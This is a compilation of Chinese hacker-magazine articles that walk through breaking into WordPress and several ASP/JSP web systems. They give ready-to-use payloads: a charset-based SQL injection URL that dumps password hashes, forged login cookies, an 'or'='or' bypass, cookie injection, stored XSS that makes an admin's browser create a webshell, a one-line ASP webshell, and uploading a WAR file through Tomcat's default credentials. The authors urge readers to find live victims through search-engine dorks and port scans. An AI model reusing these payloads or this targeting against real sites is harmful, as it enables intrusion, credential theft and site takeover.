今天是第一次写，主角是 WordPress，下面分析最近发布的两个比较新颖的漏洞。

## 二、主角出场了

架设过自己 Blog 的朋友对 WordPress 肯定不会陌生，WordPress 是一种使用 PHP 语言和 MySQL 数据库开发的开源、免费的 Blog（博客，日志）引擎，用户可以在支持 PHP 和 MySQL 数据库的服务器上建立自己的 Blog 或者 CMS 系统。加之其扩展性相当强，所以有很多的插件和模板，是 PHP 开源世界杰出的代表。而前不久，WordPress 也发布了最新的 2.3.1 版本，今天给大家分析的是几天前发布的两个漏洞。

## 漏洞一、WordPress wp-db.php 文件字符集 SQL 注入漏洞

刚刚被发现的一个漏洞是，WordPress 中的大多数数据库查询都使用 escape() 方式过滤 SQL 字符，实际上是通过 addslashes() 函数过滤输入，而 addslashes() 函数没有考虑 SQL 字符串中所使用的字符集，盲目地向单引号前插入反斜线，这样的反斜线可能会形成其他有效的字符。以下以 wp-includes/query.php 中的漏洞代码进行分析：

```
// If a search pattern is specified, load the posts that match
if ( !empty($q['s']) ) {
    ...
    foreach( (array)$q['search_terms'] as $term) {
        $term = addslashes_gpc($term);
        ...
    }
}
```

可以看到，这段代码取需要查询的参数 $q['s']，如果不空的话，则依次使用 addslashes_gpc() 对其进行处理，而 addslashes_gpc() 是在 wp-includes/formatting.php 中定义的：

```
function addslashes_gpc($gpc) {
    ......
    return $wpdb->escape($gpc);
}
```

其中使用了 $wpdb->escape()，而 $wpdb->escape() 方式属于 wp-includes/wp-db.php：

```
function escape( $string ) {
    return addslashes( $string ); // Disable rest for now, causing problems
    ......
}
```

最后就是使用了 addslashes() 这个函数来过滤输入的，但是这个函数真的可以清洁干净么？答案是“NO!”。

先来看看这个邪恶的利用代码，如下：

```
http://localhost/wordpress/index.php?exact=1&sencode=I&s=%b3%27))/AND/**/ID==-1/**/UNION/**/SELECT/**/1,2,3,4,5,user_pass,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24/**/FROM/**/wp_users%23
```

注意看我们给它传入的参数：

`s=%b3%27))/AND/**/ID==-1/**/UNION/**/SELECT/**/1,2,3,4,5,user_pass,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24/**/FROM/**/wp_users%23`

貌似没有什么问题，是吧？但是，当字符集是 GBK 或者 Big5 的时候，问题就出现了，因为 addslashes() 在所有单引号（'）前会加入一个后斜杠（\），这样的操作，很可能会让我们精心构造的语句起到不一样的效果。

貌似有点抽象，举个实际的例子吧，例如我们将 0xB327 作为搜索的参数传进去，escape() 处理的时候，会认为 0x27 是个单引号，于是就在其前面加入一个后斜杠（0x5C），而现在整个搜索字节为：0xB35C27。而这个时候，0xB35C 是个正常的 Big5 字符。集的字，把后面的单引号就构造出来了。再来看上面那个利用的语句就不难理解了吧，这样就可以查询出其用户名、密码了。

虽然这个密码是 MD5 加密的，你可能认为没有什么用，别着急，后面这篇分析更精彩。这只是一个思路，其他的利用方法，你继续想想吧，能不能移植到国内的一些程序上，就看你的本领了。

## 漏洞二、WordPress 爆 Cookies 漏洞 黑客可绕过认证

国外安全研究人员 Steven J. Murdoch 发现，在 WordPress 2.3.1 和所有之前的版本，包括 v1.5 在内都存在这个安全漏洞，攻击者可利用该漏洞绕过某些安全限制。据 Murdoch 称，由于可以从 WordPress 站点数据库 “User” 表数据中构造 2 个认证 Cookies（“wordpressuser_*” 和 “wordpresspass_*”），从而导致 WordPress 出现这个漏洞。攻击者在成功利用该漏洞之后，可以以管理员身份登录，详细的分析如下。

先看一个 WordPress 的数据库，其 User 表的内容如下：

```sql
$ mysql -u wordpress -p wordpress
Enter password: ********

mysql> SELECT ID, user_login, user_pass FROM wp_users;
```

| ID | user_login | user_pass |
|---|---|---|
| 1 | admin | 4cee2c84f6de6d89a4db4f2894d14e38 |

可以看到，用户名是 admin，MD5 的密码是 **4cee2c84f6de6d89a4db4f2894d14e38**。这种在数据库存用户名和密文 MD5（MD5(password)）的方法，被大多数人认为是一个比较安全的做法，但是看看 WordPress 的处理，你就明白，原来这样也会存在安全隐患的。

在 WordPress 登录后，会在客户端（也就是你自己的计算机上）保存如下 cookie：

```text
wordpressuser_6092254072ca971c70b3ff302411aa5f=admin;
wordpresspass_6092254072ca971c70b3ff302411aa5f=813cadd8658c4776afbe5de8f304a684
```

你可能对这么多的字符串感到迷惑，仔细看看就会明白，cookie 的名字中包含了一个 MD5 的值，这里看到的是（6092...1a5f），而这个值是你 Blog 的 URL 的 MD5 值；wordpressuser_... 是您的用户名，这里就是 admin；而 wordpresspass_... 的值是什么呢？不急，我们去 www.xmd5.net 上把这个密文再加密，见如图 1。

可以看到，把数据库里面的密文再加一次 MD5 以后，结果如图 2。

Result: LM MD5 HASH {658c4776afbe5de8} MD5 HASH (813cadd8658c4776afbe5de8f304a684)

再看看上面的 cookie，发现了么？wordpresspass_... 的值正好是这个。也就是说，cookie 里面的 wordpresspass_... 的值，正是数据库中存取的加密后的 MD5 值再进行一次 MD5 运算得到的（也就是你真正密码的二次 MD5 值，MD5(MD5(password))）。

看上去相当完美和安全，但是再看看 WordPress 是怎么检验的呢？当 WordPress 发现 cookie 中的值是数据库中密码的 MD5 值时，就认为您是合法的用户。也就是说，只要您能够得到数据库中 MD5 后的密码和用户名，就可以很顺利地绕过去。那么，怎么取得其数据库中的密码呢？方法其实有很多，你可以 google 下，就能得到很多。当你面临一个比较新版的 WordPress 的时候，回过头去看看上面的第一篇分析，你会有惊喜的。


## 三、结尾

两篇 WP 的漏洞分析完了，看上去都是理论的东西，可能会看得有点晕，不要紧，自己架设一个或者找一个 WordPress，练习下就清楚了。同时，需要提醒大家的是，把你实践的过程写成文章投稿给《黑客手册》，会被优先考虑的。

> 编辑点评：在重复劳动和缺乏创意的今天，一个新的模式的出现，希望能带来更多的漏洞资讯和新奇的漏洞利用技巧，期待更多朋友的反馈和意见，我们会认真听取大家的意见，不断改进。

本期作者分享了两个 WordPress 漏洞的分析和解读，思路都比较新奇，比看以往的 SQL 注射啥的来劲多了。大家一定要多加练习，多加思考，将其本土化，用到自己分析、探测漏洞中来。而由此延伸出去的思维，所发现的漏洞，我们更加欢迎。

## 跨站备份 WEBSHELL

### —— 网域高科行业 B2B 商务平台实例

- 从本文你可以学到：
- 利用跨站备份指定文件
- 跨站得到 webshell

后台某个功能得 WEBSHELL……说了几句题外话，下面我们一起来跨出 WEBSHELL，OK，LET'S GO。

时间过得真快，记得在 07 年 1 月份我写过一篇关于跨站添加管理员的文章，上期又给大家带来一期跨站的文章。小天对我那句话比较赞同，跨站的威力是不比注入小的。注入如果是遇见 SQL 数据库还好说，ACC 的也就能老老实实猜密码，进后台，再利用。

## 一、原理介绍

这里以网域高科行业 B2B 商务平台来测试一下，这套程序是修改阿里巴巴的程序，防注入做得比较好，但是在 leaveword_save.asp 文件里有一些变量没有过滤，下面是到 43 行代码：

```asp
book_user=request.form("book_user")
book_contact=request.form("book_contact")
book_content=request.form("book_content")
if sortid="" or tableid="" or ypid="" then
  response.write "<script>alert('未知错误！');window.close();</script>"
  response.End()
end if
if book_user="" or len(book_user)<2 or len(book_user)>16 then
  response.write "<script>alert('反馈出错，下面是产生错误时的可能原因：\n\n 请输入 2-16 位字符的用户名！');window.close();</script>"
  response.End()
end if
if book_contact="" or len(book_contact)<5 or len(book_contact)>40 then
  response.write "<script>alert('反馈出错，下面是产生错误时的可能原因：\n\n 请输入 5-40 位字符的联系方式！');window.close();</script>"
  response.End()
end if
if book_content="" or len(book_content)<5 or len(book_content)>100 then
  response.write "<script>alert('反馈出错，下面是产生错误时的可能原因：\n\n 请输入 10-100 位字符的反馈内容！');window.close();</script>"
  response.End()
end if

set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from SMT_leaveword"
rs.open sql,conn,1,3
rs.addnew
rs("SMT_book_user")=book_user
rs("SMT_book_contact")=book_contact
rs("SMT_book_content")=book_content
rs("SMT_book_sort")=sortid
rs("SMT_book_table")=tableid
rs("SMT_book_ypid")=ypid
rs.update
rs.close
set rs=nothing

response.write "<script>alert('反馈成功，谢谢你的参与！');window.close();</script>"
response.End()
%>
```

```html
<table width="100%" border="1" align="center" cellpadding="5" cellspacing="0" bordercolorlight="#cccccc" bordercolordark="#FFFFFF">
<tr>
<td bgcolor="#efefef" height=25><strong>备份数据库</strong></td>
</tr>
<tr>
<td height=25>你的空间只有支持fso才可以进行如下操作，否则你只能手动备份</td>
</tr>
<tr>
<td height=25>数据库路径：
<input type="text" name="currf" size="30" value="<%=db%>"></span>&nbsp;&nbsp; 备份数据目录：&nbsp;
<input type="text" name="backf" size="20" value="mdbback"></td>
</tr>
<tr>
<td height=25>数据库名称：
<input type="text" name="backfy" size="20" value="back.asp">&nbsp;
<input type="submit" name="Submit" value="备份">
<input type="reset" name="Submit2" value="重置">
</td>
</tr>
</table>
</form>
```

可以看出就是做了一些判断是否为空和字数上的限制，不过 book_content 限制提交字数是 100 个，这对于我们来说已经足够了。

OK，不多解释，我们可以先上传一个 .rar 的马儿，然后在数据库路径里填上。马的地址为：`/oledit/UploadFile/200712/2007121544821758.rar`。这里需要注意的是路径一定要填对，否则备份就会不成功。改动好的代码如下：

## 二、实战过程

首先我们注册个用户，在意见反馈里填入跨站语句，如图 1 所示，这样直接在后台就会执行，如图 2 所示。

这样一来，我们自然就可以做很多事情了，比如说像添加个管理员，不过以前已经写过，所以就不再重复了；这个后台有数据库备份功能，我们要做的是利用管理员身份替我们备份出一个 WEBSHELL 出来。先看看他的数据库备份代码是怎么写的，在 `admin\System\admin_backdb.asp` 文件中的 108 到 129 代码如下：


```html
<form name="form1" method="POST" action="../../admin/System/admin_backdb.asp?action=back">
<table width="100%" border="1" align="center" cellpadding="5" cellspacing="0" bordercolorlight="#cccccc" bordercolordark="#FFFFFF">
<tr>
<td bgcolor="#efefef" height=25><strong>备份数据库</strong></td>
</tr>
<tr>
<td height=25>你的空间只有支持fso才可以进行如下操作，否则你只能手动备份</td>
</tr>
<tr>
<td height=25>数据库路径：
<input type="text" name="currf" size="30" value="../../oledit/UploadFile/200712/2007121544821758.rar"></span>&nbsp;&nbsp; 备份数据库目录：&nbsp;
<input type="text" name="backf" size="20" value="hacktu"></td>
</tr>
<tr>
<td height=25>数据库名称：
<input type="text" name="backfy" size="20" value="hacktu.asp">&nbsp;
<input type="submit" name="Submit" value="备份">
</td>
</tr>
</table>
</form>
<script>document.form.submit()</script>
</html>
```

把这个保存为 XX.jpg，上传到服务器，路径为：`oledit/UploadFile/200712/200712155756468.jpg`。在意见反馈里写上如下挂马语句：`<iframe src="../oledit/UploadFile/200712/200712155756468.jpg" width=0 height=0></iframe>`，如图 3。


这样当管理员进入后台看到时，就会自动备份出 WEBSHELL 上来了，如图 4、图 5 所示。

其实跨站还有很多可以做到的事，限于时间比较急，剩下的留给大家去挖掘吧。

> 编辑点评：浪子写了三篇关于跨站的文章，写的反映都不错，这次又换个思路，从跨站触发备份，进而得到 webshell，整个流程目的性很明确，然后为实现这个目的构造需要的条件，例如这里的上传木马（rar 格式），接着上传改了名字的一个文件，然后利用跨站提交该文件，使得其备份最开始上传的那个改了后缀的 ASP 木马。最终得到 webshell。

所以，对那句“跨站真的可以干很多事”，我一点都不怀疑，缺少的只是思路。


## 云网互助影视后台验证

### 绕着走

- 从本文你可以学到：
- 云网互助后台验证漏洞分析
- 实战漏洞

前些天上中国站长站，发现云网互助影视系统出了新版本 6.0，就 down 下来读了下，不看不知道，一看吓一跳，在后台登录（Admin_Login.asp）发现了传说中的“古洞”，只要构造特殊用户名就可以绕过后台验证，登录后台。

## 一、漏洞分析

先看代码，在 `Admin_Login.asp` 的 36—69 行是这样写的：

```asp
Action=Trim(request.QueryString("Action"))
Select Case Action
Case "LoginCheck"
    AdminName=NoSqlHack(trim(Request.form("AdminName")))   ' 调用自定义函数 NoSqlHack() 检测 AdminName
    password=NoSqlHack(replace(trim(Request.Form("password")),"'","''"))   ' 调用自定义函数 NoSqlHack() 检测 password 并过滤单引号
    Md5_Pass=md5(password,32)   ' 对 password 进行 md5 加密
    GaobeiSys_CheckCode=replace(trim(Request("GaobeiSys_CheckCode")),"'","")
    If cstr(Session("getcode"))<>Lcase(Cstr(Trim(Request("codestr")))) Then
        Response.Write("<script>alert('验证码错误请重新输入！');history.back(1);</script>")
        Response.end
    End If
    Set Rs=Server.CreateObject("YWNT_TMS_RS")
    sql="select AdminName,AdminGroup,AdminIPOff,AdminIP,AdminLocks from YWNT_TMS_Admin where AdminName='"&AdminName&"' and AdminPassword='"&Md5_Pass&"'"
    Rs.open sql,conn,1,1   ' sql 查询，关键
    if not rs.EOF then
        IF Rs("AdminIPOff")=1 Then
            if Rs("AdminIP")<>UsersIP() Then
                Response.Write("<script>alert('无法正常登入，您的 IP 需要和管理员绑定的 IP 不一致！');location.href='Admin_Login.asp'</script>")
                Response.End
            End if
        End If
        If Rs("AdminLocks")=1 Then
            Response.write("<script>alert('无法正常登入，此管理员账户已被锁定请与超级管理员联系！');location.href='Admin_Login.asp'</script>")
            Response.End
        End If
        Session("Admin")=Rs("AdminName")
        Session("AdminGroup")=Rs("AdminGroup")
        Session("AdminSession")=true
```

```asp
Session.Timeout=GetConfig("WebSession")
rs.close
set rs=nothing
Call AddLog("管理员："&Session("Admin")&" 成功登录！")
call console()
Response.Redirect "Admin_index.asp"
```

也许是程序员的疏忽，password 调用自定义函数 NoSqlHack() 进行检测并过滤单引号，但 AdminName 却没过滤单引号！再看函数 NoSqlHack() 是怎么写的吧：

```asp
Function NoSqlHack(inputStr)
if inputStr="" then exit Function
Dim t,NoSqlHack_AllStr,NoSqlHack_Str,NoSqlHack_i,Str_inputStr
Str_inputStr=inputStr
NoSqlHack_AllStr="*|and|exec|insert|select|delete|update|count|master|truncate|declare|and|exec|insert|select|delete|update|count|master|truncate|declare|char|mid|chr|rand|exec|insert|select|delete|update|count|master|truncate|declare|set|set|set|where|where|where"
NoSqlHack_Str = Split(NoSqlHack_AllStr,"|")
For NoSqlHack_i=LBound(NoSqlHack_Str) To UBound(NoSqlHack_Str)
    If instr(LCase(Str_inputStr), NoSqlHack_Str(NoSqlHack_i))<>0 Then
        If NoSqlHack_Str(NoSqlHack_i)<>"'" Then NoSqlHack_Str(NoSqlHack_i)=""
        Response.Write "<html><title>警告</title><body bgcolor='#EEEEEE' leftmargin='60' topmargin='80'><font style='font-size:16px;font-weight:bold;color:blue;'>您提交的数据有恶意字符</font><br /><br /><font style='font-size:14px;font-weight:bold;color:red;'>您的数据已经被记录</font><br /><br />您的IP："&Request.ServerVariables("Remote_Addr")&"<br />操作日期："&Now&"</body></html>"
        Response.End
    End If
Next
NoSqlHack=Str_inputStr
End Function
```

函数 NoSqlHack() 只要检测到 `*、and、exec` 等字符就发出警告并停止执行！大家注意没有，“or”、“'”没有被列入黑名单。我们知道在代码中的 SQL 查询语句 `select AdminName,AdminGroup,AdminIPOff,AdminIP,AdminLocks from YWNT_TMS_Admin where AdminName='"&AdminName&"' and AdminPassword='"&Md5_Pass&"'`，只要为真就可以绕过后台验证。## 二、漏洞利用

用关键词“本站提供的所有影视作品均属网上搜集，用户如需保留敬请购买正版”到百度搜索，可以搜索到 1 万之多！如图1。


我随便找了个站来测试，访问后台（admin/Admin_Login.asp），用户名就填“'or'='or'”，密码任意，如图2、图3。


进了后台后，选择“系统设置”，在上传文件类型添加“/asp”，如图4。


然后 -> 影片管理 -> 添加 -> 图片上传，上传我们的 asp 木马就行了，如图5。


## 三、总结

文章就到这里了，这个漏洞也是老洞了，有什么问题到 nohack 论坛找我，我的是 mystery，官方也发布补丁了（不知……）。

编辑点评：这个漏洞产生得有些意外，明明意识到可能存在的不安全因素，但黑名单中却遗漏了最大危害的 or 和单引号，导致我们可以构造语句直接绕过那个 Where 的判断；小编认为，这可能不是疏忽，而是不理解，程序员可能只是听闻 SQL 注射之类的漏洞，但是没有仔细去了解其原理，造成认识不足。程序员还是需要提高自身对安全的认识，才能从根本上防止漏洞的产生。

## 唐网和良精的秘密

- 1. Cookie 注射分析、实战
- 2. XSS 分析

## 一、前言

最近去网上逛逛，本是无聊，发现一个站的源代码，哇！看到下载的人还真的很多呀！这着实让我鼓起了干劲，如图1。

下载次数达到了 5231 次，心想：这个系统找出点玩意的话，岂不是很有意思？哈哈，肉鸡、服务器就……


给我等小菜咯！说干就干，怎么能不动手呢？

## 二、Cookie 注入

下载了代码，在本地搭建了一个 asp 环境（asp 旋风小子），看了一下首页，感觉还是不错的，如图2。

看了一个大致，觉得用这个系统的小伙子应该是十分地多。本小菜就贼想搞下，一般的网站系统都少不了 inject（注入）的吧。说干就干，随便找了一个页面加了一个“'”单引号，出现提示了，如图3。

提示竟然说包含非法字符，看来这个系统还是有点安全意识的，不知道能不能挖掘点什么出来玩，于是找出了这个页面的代码。

```asp
<!--#include File="inc/Check_Sql.asp"-->
<!--#include file="inc/conn.asp"-->
```

```asp
FOR EACH name IN Request.Form
for i=0 to ubound(Chk_badword)
if Instr(LCase(request.form(name)),Chk_badword(i))<>0 Then
Select Case Err_Message
Case "1"
Response.Write "<Script Language=JavaScript>alert('出错了！表单'&name&' 的值中包含非法字符串！\n\n请不要在表单中出现： % & + ；（ ） 等非法字符！');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('出错了！参数'&name&' 的值中包含非法字符串！\n\n请不要在表单中出现： % & + ；（ ） 等非法字符！');location.href='"&Err_Web&"'</Script>"
End Select
Response.End
End If
NEXT
NEXT
'end if
%>
```


图2 网站首页

```asp
<!-- #include file="inc/Skin_css.asp" -->
<!-- #include file="inc/config.asp" -->
<!-- #include file="inc/function.asp" -->
<!-- #include file="head.asp" -->
```

啥都不要说了，大家看到这样的文件头，马上去找 check_sql.asp 了。实在搞笑的是，我在那个文件里竟然找到了愚蠢的 cookie 注入。看代码：


图3 提示信息

```asp
—— 对 get query 值的过滤 ——
if request.QueryString<>"" then '用GET方式获取ID变量
Chk_badword=split(Query_BadWord, "|") '在获取的变量中查看badword并且用“|”分割。
FOR EACH Query_Name IN Request.QueryString
for j=0 to ubound(Chk_badword) '将获得的变量和badword比较
if instr(LCase(request.QueryString(Query_Name)),Chk_badword(j))<>0 Then
如果不等于0那么就提示：
Select Case Err_Message
Case "1"
Response.Write "<Script Language=JavaScript>alert('传参错误！参数'&name&' 的值中包含非法字符串！\n\n请不要在参数中出现：and update delete insert mid master 等非法字符！');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('传参错误！参数'&name&' 的值中包含非法字符串！\n\n请不要在参数中出现：and update delete insert mid master 等非法字符！');location.href='"&Err_Web&"'</Script>"
End Select
Response.End
End If
NEXT
NEXT
End if

—— 对 post 表单值的过滤 ——
if request.form<>"" then
Chk_badword=split(Form_BadWord, "|")
```

十分明显地，代码只是对 get 和 post 进行过滤并且提示有非法字符。想想，貌似少了一个过滤吧？！没错，正是 cookies。这个文件包含了对全部注入的检查，换句话说，这个存在了 cookie 注入，那么……整个站都死了……

在我们知道这个文件存在 cookie 注入的时候，我们下一步是什么呢？当然小菜们急的是拿 webshell。那看好，怎么用 jsCookie 拿到 webshell，首先去掉页面的“ID”变量，如图4。


图4 手工去掉 ID 参数

提示“数据库出错”，呵呵！我们要的就是这个效果，当然大家要注意，在上面的“?id=1”这些字符要去掉的哦。然后拿出咱们的 jsCookier，如图5。


图5 使用 jsCookier

依次在浏览器点击“工具”“扩展工具栏”“jsCookier”，然后进入一个黑漆漆的页面，哈哈，那个页面是用来 cookie 注入的，如图6。

依次在 cookie 名称中写入“id”，因为是 id 带进数据库查询的嘛。Cookie 属性上填写语句“-1 union select 1,username,password,4,5,6,7,8,9,10 from admin”（字段来源：把数据库的扩展名改成“mdb”，用明小子打开看了一下，存在“admin”表）。

后点击“有效期（一分钟）”->“灌入”->“写入”，再回到原来 shownews.asp 页面刷新一下，返回结果如图7。

成功地暴出了 admin 的 MD5 密码。大家可以拿到 www.xmd5.cn 查询，由于我是本地测试的，密码是默认的，我就进后台看一下吧。如图8。


上传文件可以添加的，咱就在这添加一个 asp 文件，然后找地方上传就行，如图9。可惜的是，我在这遇到了麻烦，什么麻烦呢？不给使用后台的页面，必须交钱，难道我会这么乖乖地听话吗？当然不！网站是可以配置的，听完我这句话大家知道我什么意思了吧，就是说在 inc\config.asp 里修改东西，第一想到的就是一句话木马。可能是由于本人技术有限，在那个地方未能插入一句话木马，大家可以利用默认的数据库。


## 三、XSS 跨站

条件反射，我就直接测试了一下，果然没有过滤，悲叹！如图10。

唯一的 check_sql.asp 也不起码的“<”“>”过滤，就造成了 xss。要是哪位仁兄手狠点，那整个站就不用说了。直接在回复的地方写入 `<script>alert(跨站测试)</script>` 就能得到那个地址了。那么，我们挂马的兄弟怎么搞？当然是写 `<iframe src="http://www.baidu.com"></iframe>`，我是拿 baidu 做测试，如图11。


## 三、注入漏洞

正当以为什么也没漏洞的时候，读啊读啊读，在 CompHonorBig.asp 产生了注入漏洞。看代码：

```asp
<%
dim id    '定义变量ID
id=request.QueryString("id")
%>
GET方式获取变量ID。
<html>
<head>
<title>图片</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from CompHonor where id="&id,conn,1,1
什么也没过滤，直接带进数据库查询
%>
```

这个是一个很典型的注入漏洞，对于一般的典型漏洞，大致可以以下面的代码作为典范：

```asp
<%
If request("id")<>0  'GET方式获取变量ID，不为空
Then    '那么，
Select 查询数据库
```


对于这样的语句，小伙子们可以燃起啊 D 注入了，如图12。出色地完成了注入。一般来说，access 数据库的注入和 cookie 注入差不多吧，大家想怎么搞就怎么搞。

## 四、实战

来到了官方，利用默认数据库地址拿到了网站的 webshell。默认的数据库是 .asp#，厉害的，也就是说我们写任何进去都是能拿到，包括我们的 `<%@execute request("#")%>`。（默认数据库路径 Databases\2008maxtangcn#.asp，提示：注意把 # 号换成 `%23`，URL 编码哦！）如图13、图14。

只是官方比较 BT，虚拟机也搞不下，小菜比较菜哈。在这，小菜也说一下，这次代码检测后涉及的网站是十分地多。我用挖掘机挖了一下，一大片一大片的，如图15。涉及的站的确多，大部分分站还是能搞的。当你检测到一个页面和这个差不多的站，请记住我的一句话：用 cookie 注入；OK！


## 五、后记补充

后来小菜得知，良精系统和这个唐网科技存在的漏洞竟然一样，这无疑使得受害的网站成倍上涨。小菜又得知，这个系统的大部分地方竟然和南方系统类似，不知道是不是抄袭的。他们的秘密只能靠大家的双手，以及智慧挖掘了！

行文仓促，本人刚起步，希望高手指点，新年快乐 `0`


> **编辑点评：**
>
> 刚起步，就能比较完整地分析一个系统的安全性，确实不错。作者文中说到了 cookie 注射、xss 以及几个明显的 SQL 漏洞，虽然都不是多牛 X 的技术，但对于一个刚起步的朋友来说，这足够自豪了，希望再接再厉。

## 看小菜如何搞定 Tomcat


- 从本文中你可以学到：
- 1. 关于 JSP 的一些小基础知识
- 2. Tomcat 的利用

嘿嘿！想想偶们这些小菜也不能整天只玩 ASP 了，要玩也应该换着花样玩。这次偶给大家带来的是关于利用 tomcat 的后台来搞定整个网站。我们知道 Windows 的 IIS 是不能支持 JSP 的，如果想要支持 JSP 必须装有 Apache 和 tomcat，那么什么是 tomcat 呢？

> **小知识：**Tomcat 是 Apache—Jarkarta 的一个子项目，是一个开放式源码、免费支持 JSP 和 Servlet 技术的容器，它同时又是一个 Web 服务器软件，实际就是 Apache 为 .html 页面服务，而 tomcat 实际上运行 .jsp 页面和 servlet 的东西。

我们知道一个服务器安装了 Apache Tomcat 后会开放 8080 端口供外部连接，我们直接在 IE 上访问域名或者 IP:8080 就可以直接连接到 Apache Tomcat 的页面，如图1。

而有很多对 tomcat 不是很了解的管理员在安装完 Tomcat 后并没有修改默认密码（用户名 admin，密码为空），这样我们就可以直接登录进去。tomcat 有两个目录可以访问：在这里 /admin 目录我不做过多的解释，因为 /admin 目录下利用：Service—host—actions—Create New Context 建立虚拟目录 Document Base 来浏览目录用的，对于我们小菜来说有点麻烦。我们直接介绍第一种方法，直接在域名后输入：http://xxxxx:8080/manager/html，或者点击 Apache Tomcat 页面上的 Tomcat Manager，在弹出的对话框中，用户名填上：admin，密码为空，就可以直接得到 tomcat 管理权限，如图2、图3。


进去之后我们会看见有一个浏览上传文件的地方，但是各位不要以为在这里直接传我们的 JSP 马就可以了。因为这里只可以直接上传 war 文件（用于远程管理 tomcat 服务的脚本文件）来自动建立虚拟目录，因此你可以将你的 jsp 马用 ant 打包到 war 里面，然后上传之后，访问这个虚拟目录下你的 jsp 马就 OK 了。说说没用，我们直接试一下。我们上传一个名为 job.war 的文件，里面包含了我们的 JSP 马，注意格式一定要是 WAR。上传成功后，我们访问 http://ip/job/index.jsp 就可以看见我们的 JSP 马了！如图4、图5。OK！至此我们已经成功地拿到了网站的 WEBSHELL。嘿嘿，JSP 的权限可是很大的哦！各位可以用 superscan 去扫描 8080 端口的网站，希望能找到很多目标。


文章说的利用方法，可能在局域网（比如公司、实验室等）存在，但是在真正的商业服务器上，并不会太多，所以想试的朋友，可能需要广撒网。

> 编辑点评：Tomcat 对很多玩 ASP、PHP 的朋友来说，可能还比较陌生，相对来说大家更加熟悉 IIS 和 Apache，但是 Tomcat 其实和它们基本上是一样的，只是服务的对象不一样；Tomcat 在 Java（JSP）的世界里面，是个相当受欢迎的轻量级服务器，另外还有比较重量级的 JBOSS 和 WebLogic。

## 浅析中华竞猜家园网盘口 1.5


李武祥

- 1. 跨站的利用
- 2. cookie 欺骗漏洞

从本文你可以学到：

闲来无事下了一套源代码回来研究研究，废话不多说，搭建好环境开始测试，下面是挖掘过程！拿到程序我习惯性地找注入漏洞，找了半天也没找到（其实 cookie 注入是存在的，我看过他的防注入代码根本没有过滤 cookie 提交的数据，不过他自定义了个出错页面如图1，使得我无法继续，哪个兄弟有方法告诉我下）。


```asp
<%
SQL_injdata = "'|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare"
SQL_inj = split(SQL_injdata,"|")
If Request.QueryString<>"" Then
  For Each SQL_Get In Request.QueryString
    For SQL_Data=0 To Ubound(SQL_inj)
      if instr(Request.QueryString(SQL_Get),Sql_inj(Sql_DATA))>0 Then
        Response.Write "<Script Language=JavaScript>alert('请勿提交非法数据!');history.back(1)</Script>"
        Response.end
      end if
    next
  Next
End If
If Request.Form<>"" Then
  For Each Sql_Post In Request.Form
    For SQL_Data=0 To Ubound(SQL_inj)
      if instr(Request.Form(Sql_Post),Sql_inj(Sql_DATA))>0 Then
        Response.Write "<Script Language=JavaScript>alert('请勿提交非法数据!');history.back(1)</Script>"
        Response.end
      end if
    next
  next
End If
%>
```

防注入代码在 conn.asp 里，如下：

```asp
...next
end if
set rs=server.createobject("adodb.recordset")
conn = "DBQ="&server.mappath("db/gzp#db.mdb")&";DefaultDir=" & _
"DRIVER={Microsoft Access Driver (*.mdb)}"
%>
```

不过程序员好像没怎么注意跨站漏洞！下面来注册用户，注册就不说了，很简单，注册完来到会员中心点“学员资料设置”，如图2，再按如图3的输入，填好提交就 OK 了！下面就来看看效果怎么样吧，点“学员信息”，再点下我的注册信息就能看到了，如图4。


看他的代码是怎么写的吧，相关文件在 add_guest_db.asp 里面，其中的关键代码如下：


```asp
... 省略N字段码 ...
content=Request("content")
username=Trim(request("username"))
email=request("email")
qq=request("qq")
homepage=request("homepage")
show=request("show")
addtime=now()
sex=request("sex")
sql="insert into guest(title,content,username,email,qq,addtime,ip,homepage,sex) values('"&title&"','" &content&"','"&username&"','"&email&"','"&qq&"','"&addtime&"','"&ip&"','"&homepage&"','"&sex&"')"
... 代码过滤 insert 了，汗啊！
... 省略N字段码 ...
```

根本没有过滤，不出现跨站才怪呢，可能程序员认为跨站成不了气候吧，可是利用的话可以做很多事的。怎么利用？去看看 2007 年 12 期飘逸浪子“跨站精灵”吧。


接着来看后台的 Cookie 欺骗漏洞，先来看 admin.asp 里面的代码，代码如下：

```asp
<%
if Request.Cookies("login")<>"yes" and Request.Cookies("8686gg3xz")<>"780abcd%23ddSDB8766" then
    Response.Cookies("8686gg3xz")="894jhdsk563"
    call codeistrue("!")
    psw=md5(request("adminpsw"))
    sql="select * from gogo_admin where gogo_name='"&request("adminname")&"'"
    rs.open sql,conn,1,1
    if rs.eof then
        ...
```

从上面的代码我们可以很简单地构造如下的 Cookie：login=yes；8686gg3xz=780abcd%23ddSDB8766；8686gg3xz=894jhdsk563。

拿出老兵的 Cookie 欺骗工具，在 IE 里直接填上 http://127.0.0.1/admin/admin.asp，点下黄色的小图标，把上面的 Cookie 粘贴进去点连接就能进后台了，如图5。现在进来了怎么拿 WebShell？进来后才发现后台太简陋了，不能备份也不能上传（因为是免费版的，正版也不贵，就多花 50 元）。本来想拿官方做测试的，可是一连几天都如图6。

在网站配置后信息插入一句话马，以前的杂志讲过多遍了，就不再说多少了，不会的还是那句话，翻翻以前的杂志吧！我的论坛 ID：艾米！没什么技术含量，只是给大家多个找漏洞的方法！


> 编辑点评：没事的时候，多翻翻杂志，会有不一样的收获。

## 对网站高科学生校园站管理系统 V2008 漏洞分析

图：奔访读

- 从本文你可以学到：
- 网站高科学校网站管理系统的 SQL 注射分析
- 跨站的利用

上夜班实在无聊，就到网上找了几个程序回来分析，最后选择了这套程序，功能多，还自带一个论坛，后台有上传图片和数据库备份功能，对我等菜鸟拿 WebShell 快些，主页看起来还漂亮，如图1。


### 一、注射漏洞

看了主页上的连接只有 showclass.asp、display.asp 和 News.asp 后面带参数。第一个看的 showclass.asp 文件就让我好不爽。

```asp
<%
dim id,menuname
if IsNumeric(Request.QueryString("id"))=False then
    Response.Redirect("info.asp?info=错误的参数，ID必须是有效的数字")
else
